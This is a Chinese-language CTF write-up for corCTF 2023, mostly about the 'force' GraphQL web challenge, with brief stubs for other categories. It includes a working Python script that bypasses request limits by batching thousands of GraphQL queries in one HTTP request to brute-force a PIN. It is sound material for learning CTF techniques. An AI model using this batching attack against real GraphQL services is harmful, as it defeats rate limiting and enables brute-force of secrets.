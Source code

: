 # web
### force
#GraphQL
核心代码
```js
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230801191544.png)
要让传进去的flag\=\=一个随机数 ,而且限制了最大request,无法爆破

```http
POST / HTTP/1.1
Host: web-force-force-071653fc1aff533c.be.ax
Content-Length: 20
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115", "Chromium";v="115"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: text/plain
Accept: */*
Origin: https://web-force-force-328a9076b0a2deb6.be.ax
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://web-force-force-328a9076b0a2deb6.be.ax/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
    flag(pin:11)
}
```

不知道怎么绕过...

---

GraphQL的特性是支持一条http请求里执行多个查询也就是`batch query`
https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks
```python
{
batch1:flag(pin:0)

batch2:flag(pin:1)
}
```

*python*
```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
    
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}



while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
    
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
    
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
        
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

### msfrognymize
一个上传图片后对可以对人脸进行打码的网站


# reverse
### utterly-deranged
直接f5会提示`too big function`,修改配置文件里的选项,还是不行,反编译半天

# pwn

# crypto

# Misc


---
# *相关wp*




2023-08-01   19:14